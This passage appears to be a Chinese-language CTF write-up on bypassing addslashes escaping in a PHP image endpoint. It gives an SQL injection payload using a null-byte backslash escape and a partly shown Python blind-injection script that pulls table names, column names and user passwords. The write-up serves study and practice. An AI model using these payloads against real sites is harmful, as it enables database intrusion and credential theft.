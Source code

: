 > **addslashes**
>
> 在单引号（`'`）、双引号（`"`）、反斜线（`\`）与    NUL（**`null`** 字符）前加上反斜线

在后面也用了`str_replace`来过滤危险字符

直接在本地测试一下

![image-20221225133721321](ciscn.assets/image-20221225133721321.png)

可以逃逸出去反斜杠

于是构造payload

```sql
image.php?id=\0&path=||1=1;%23
select * from images where id='\' or path='||1=1;#'
```

成功回显图片

> **mysqli_fetch_array**
>
> 返回一个以列名为key的数组
>
> ```sql
> mysql> select * from admin;
> +----+----------+------------+
> | id | username | account    |
> +----+----------+------------+
> |  1 | xlccccc  | 2595251998 |
> +----+----------+------------+
> 1 row in set (0.00 sec)
> ```
>
> 返回的数组就是`row['id']==>1 row['username']==>xlccccc`

想试着逃逸出双引号来直接读文件，没试成功，那就只能盲注了

```python
import requests
import time

url = 'http://5376ddf5-a7d0-45d6-aaf3-c01fdf510cb3.node4.buuoj.cn:81/image.php'
database = ''
flag = ''
str = '0123456789qwertyuiopasdfghjklzxcvbnm}-'
# table: images users
payload1 = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# column: user,password
payload2 = "select group_concat(column_name) from information_schema.columns where table_name=0x7573657273"
# password:953cb63f6d5d78d0cffb
payload3 = "select group_concat(password) from users"
for i in range(1, 46):
  for j in range(32, 127):
    payload=rf"?id=\0&path=||ascii(substr(({payload3}),{i},1))={j};%23"
    time.sleep(0.1)
    r = requests.get(url+payload)
    if r.text != '':
```